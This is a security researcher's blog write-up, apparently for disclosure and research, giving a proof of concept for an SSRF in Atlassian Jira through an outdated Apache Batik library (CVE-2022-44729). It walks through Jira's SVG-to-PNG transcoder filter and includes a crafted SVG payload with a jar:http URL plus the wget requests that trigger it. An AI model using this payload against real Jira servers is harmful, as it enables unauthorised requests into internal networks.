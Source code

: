```yaml
---
layout: post
title:  "CVE-2022-44729 PoC for Atlassian Jira SSRF due to Apache Batik vulnerabilites"
datetime: 2024-01-18 17:45:00 MET
last_modified_at: 2024-01-19 10:10:00 MET
author: 'psytester'
---
```


Here is my Proof of Concept for a SSRF in Atlassian Jira.

[AtlassianSecurity Bulletin - January 16 2024](https://confluence.atlassian.com/security/security-bulletin-january-16-2024-1333335615.html) points to some 3rd-party updates, e.g. CVE-2022-44729 in Apache Batik with a SSRF issue.<br>

I was not able to upload a file into Jira /images path with usage of admin webservice. But if the malicious SVG is placed by an admin in Jira /images path, an unauthenticated attacker can trigger the SSRF issue, too.

Ok let's start, take a closer look. Ohh! There are a lot of SSRF issues in [Batik vulnerability advisory.](https://xmlgraphics.apache.org/security.html)<br>
I found a write-up at [zerodayinitiative blog.](https://www.zerodayinitiative.com/blog/2022/10/28/vulnerabilities-in-apache-batik-default-security-controls-ssrf-and-rce-through-remote-class-loading) from Piotr Bazydło in Oct. 2022. Great details, thank you for that.<br>

I'm using latest V9.**4**.15 **LTS**, am I'm safe? **NO**!!!<br>
As today 18. January 2024, Batik 1.17 was released at 2023-08-22 and e.g. Jira V9.**4**.11 LTS from October 2023 up to latest V9.**4**.15 LTS from 3. January 2024 still contains Batik version 1.14 from 2021-01-20.<br>
Just newest Jira V9.**12**.2 LTS from 10. January 2024 contains latest Batik version 1.17

Long Jira research, short goal:<br>
There is an AvatarTranscoder.class, which uses Apache Batik, but don't get confused about "Avatar". Due to the fact, that Jira user avatar or issue type can't be a SVG, this is not usable.<br>

There are three classes which are using AvatarTranscoder:
```
com.atlassian.jira.component.pico.registrar.ContainerRegistrar
com.atlassian.jira.mail.util.MailAttachments
com.atlassian.jira.web.filters.SvgToPngTranscoderFilter
```

I was not able to setup a mail notification which includes the issue attachement.content, because Jira does not support it.
No avatar nor icon SVG, no mail attachement.<br>
Time for frustration.

Back on track, why do they offer SvgToPngTranscoderFilter.class and what is it doing?
```
  private boolean needsTranscoding(HttpServletRequest request) {
    if (request.getServletPath().endsWith(".svg")) {
      String format = request.getParameter("format");
      return (StringUtils.isNotBlank(format) && "PNG".equals(format.toUpperCase()));
    } 
    return false;
  }
```

Checking they /opt/atlassian/jira/atlassian-jira/WEB-INF/web.xml
```
    <filter>
        <filter-name>svg-to-png-transcoder</filter-name>
        <filter-class>com.atlassian.jira.web.filters.SvgToPngTranscoderFilter</filter-class>
    </filter>
    ....
   <filter-mapping>
        <filter-name>svg-to-png-transcoder</filter-name>
        <url-pattern>/images/*</url-pattern>
    </filter-mapping>
```

Login into Jira page, there are some SVG images located in `/images/`<br>
`wget http://localhost:8080/images/jira-software.svg`
```
....
Länge: 9743 (9,5K) [image/svg+xml]

cat jira-software.svg
<?xml version="1.0" encoding="UTF-8"?>
<svg width="158px" height="30px" viewBox="0 0 158 30" version="1.1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
```

I'm excited when it's what I think it is by using query parameter "?**format=png**"<br>

`wget http://localhost:8080/images/jira-software.svg?format=png`<br>
`cat jira-software.svg\?format\=png`<br>
```
�PNG
```

Ok, the SVG was converted to PNG :-)

Placing my SSRF SVG image on the server, for this simple PoC it needs to be located in `/opt/atlassian/jira/atlassian-jira/images/`<br>

cat /opt/atlassian/jira/atlassian-jira/images/SSRF.svg
```
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="450" height="500" viewBox="0 0 450 500">
    <image width="50" height="50" xlink:href="jar:http://localhost:4242/poc?poc=poc!/"></image>
</svg>
```

`wget http://localhost:8080/images/SSRF.svg?format=png`<br>

**BINGO!**

If host and port is not reachable, there will be an immediate HTTP 500 error.
Otherwise it depends. My remote netcat listener keeps open the connection.

![Screens Gif showing the SSRF](https://psytester.github.io/images/CVE-2022-44729_Batik_SSRF_Atlassian_Jira_SSRF.gif)


Thank you for reading. The Batik vulnerabilites CVEs are not my credit, but the work on the PoC exploit in Jira is powered by psytester, this post was only for my private fun. ;-)

# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information.
In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2024 by psytester and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
